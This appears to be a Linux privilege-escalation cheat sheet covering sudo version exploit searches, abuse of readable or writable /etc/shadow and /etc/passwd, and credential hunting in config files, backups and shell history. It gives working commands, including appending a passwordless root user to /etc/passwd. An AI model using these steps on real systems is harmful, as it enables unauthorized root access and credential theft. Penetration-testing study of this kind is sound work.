 ## **Sudo Version Exploits**

**Exploit sudo version**

*   **searhsploit**

    ```
    searchsploit sudo 1.6
    ```
* **github search**

## **Weak permession**

* **can read /etc/shadow**
  * Crack The Shadow
  * change the hash
  * edit the shadow
*   **can read /etc/passwd**

    > The /etc/passwd file contains information about user accounts in some old linux versions /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.Note that the /etc/passwd file is world-writable:

    *   **First generate a password with one of the following commands.**

        ```
        mkpasswd -m SHA-512 hacker
        ```
    *   **Turn it to`user:hash`formula**

        ```
        hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
        ```
    * **You can now use the`su`command with`hacker:hacker`**
    *   **you can edit uder with empty password**

        ```
        echo 'hacker::0:0::/root:/bin/bash' >>/etc/passwd
        ```
    * **You can now use the`su hacker`command**
* **can edit executables in with sudo rights located in $PATH or in any DIR**
  * over write it to spawn you a shell with bash|interpreted Language|C compiled Program
* **can edit executables content**

## **Credential Hunting**

* **Get insecure password storage for services**
  * some services store creds in a simple configration file in its directory
  * MySQL : phpconfig
  * SSH : sshkey cracking
  * service: search for `.cfg` as example
* **analyze Back up files**
*   **analyze history to find command require password as argument**
